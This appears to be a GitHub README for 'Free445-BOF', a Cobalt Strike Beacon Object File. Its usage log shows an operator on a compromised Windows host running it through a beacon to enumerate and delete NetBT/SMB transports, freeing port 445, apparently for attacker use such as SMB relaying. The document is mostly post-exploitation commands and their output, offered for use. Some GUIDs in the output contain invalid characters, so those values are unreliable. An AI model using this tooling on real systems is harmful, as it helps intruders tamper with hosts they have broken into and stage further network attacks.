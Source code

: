 # Free445-BOF
Code from https://github.com/DrJWCain/VFS/blob/master/Free445/Free445/Free445.cpp

## Compile

Please use [Actions](https://github.com/dust-life/Free445-BOF/actions)

## Usage
```
beacon> shell netstat -ano |findstr "445"
[*] Tasked beacon to run: netstat -ano |findstr "445"
[+] host called home, sent: 58 bytes
[+] received output:
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    [::]:445               [::]:0                 LISTENING       4

beacon> inline-execute C:\Users\Administrator\Desktop\Free445.o
[*] Tasked beacon to inline-execute C:\Users\Administrator\Desktop\Free445.o
[+] host called home, sent: 1312 bytes
[+] received output:
Found Transport: \Device\NetbiosSmb

[+] received output:
Deleted \Device\NetbiosSmb

[+] received output:
Found Transport: \Device\NetBT_Tcpip_{3291F33D-0E44-89D9-2912-333D62667590}

[+] received output:
Found Transport: \Device\NetBT_Tcpip_{2CJJ221A-8D33-291F-3921-D92392EI2199}

[+] received output:
Found Transport: \Device\NetBT_Tcpip_{29EEDDA1-49D1-4932-80DW-90BUI928291B}

[+] received output:
Total of 4 entries enumerated

beacon> shell netstat -ano |findstr "445"
[*] Tasked beacon to run: netstat -ano |findstr "445"
[+] host called home, sent: 58 bytes
```
